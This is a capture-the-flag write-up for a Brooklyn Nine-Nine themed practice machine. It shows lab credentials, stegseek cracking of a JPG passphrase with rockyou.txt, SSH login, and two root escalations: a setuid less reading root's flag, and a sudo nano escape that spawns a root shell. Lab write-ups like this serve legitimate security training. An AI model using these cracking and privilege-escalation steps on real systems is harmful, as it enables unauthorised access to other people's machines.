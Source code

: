 ## Info
### Credential
- jake
- holt:fluffydog12@ninenine
- amy

## Path
### User
1. The comment in the html tell us to do some steg. Since it's a `.jpg` file, use `stegseek` to crack it and get Holt's password.
```
$ stegseek brooklyn99.jpg /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".

$  cat brooklyn99.jpg.out
Holts Password:
fluffydog12@ninenine

Enjoy!!
```
2. Use Holt's credential to login from ssh, and get the user flag!
### Root 1
1. Found `/bin/less` has setuid and the owner is root, so we can use it to read the flag.
```
$ less -r /root/root.txt
```
### Root 2
2. Another way to gain root is that we can run nano using sudo. So follow the GTFOBins and gain root.
```
$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
$ sudo nano
^R^X
reset; sh 1>&0 2>&0
# whoami
root
``` 
